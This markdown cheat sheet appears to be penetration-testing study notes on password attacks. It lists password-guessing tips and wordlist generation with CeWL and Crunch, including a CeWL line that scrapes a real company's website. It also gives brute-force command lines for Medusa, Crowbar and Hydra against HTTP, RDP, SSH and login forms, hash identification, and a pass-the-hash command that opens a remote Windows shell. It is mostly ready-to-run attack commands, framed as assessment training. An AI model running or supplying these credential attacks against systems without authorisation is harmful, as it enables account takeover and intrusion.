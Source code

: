 ### Tips
```
1. Always try username as password.
2. Season + Year
3. Year + Season
```
### Cewl
```
cewl https://www.tesla.cn -v -a -m(min) 1 -w tesla.txt
```

### Crunch
```
crunch 8(min) 8(max) -t ,@@^^%%%

PLACEHOLDER	CHARACTER TRANSLATION
@	Lower case alpha characters
,	Upper case alpha characters
%	Numeric characters
^	Special characters including space

crunch 4 6 0123456789ABCDEF(char set) -o crunch.txt
```
### Medusa
###### HTTP htaccess Attack with Medusa
```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
medusa -d(check out supported modules)
```

### Crowbar
```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```
### Hydra
>Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user(post_form_key)=admin&pass(post_form_key)=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f(stop the attack when the first successful result is found)
```
### Hash Identification
```
hashid c43ee559d69bc7f691fe2fbfe8a5ef0a
hashid '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e5NAz/s7DQcAojRTWNpZX0'
```
### Passing the Hash in Windows
>Scenario:
>cracking password hashes can be very time-consuming and is often not feasible without powerful hardware. However, sometimes we can leverage Windows-based password hashes without resorting to a laborious cracking process.  
During our assessment, we discovered a local administrative account that is enabled on multiple systems. We exploited a vulnerability on one of these systems and have gained SYSTEM privileges, allowing us to dump local LM and NTLM hashes. We have copied the local administrator NTLM hash and can now use it instead of a password to gain access to a different machine, which has the same local administrator acount and password
```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```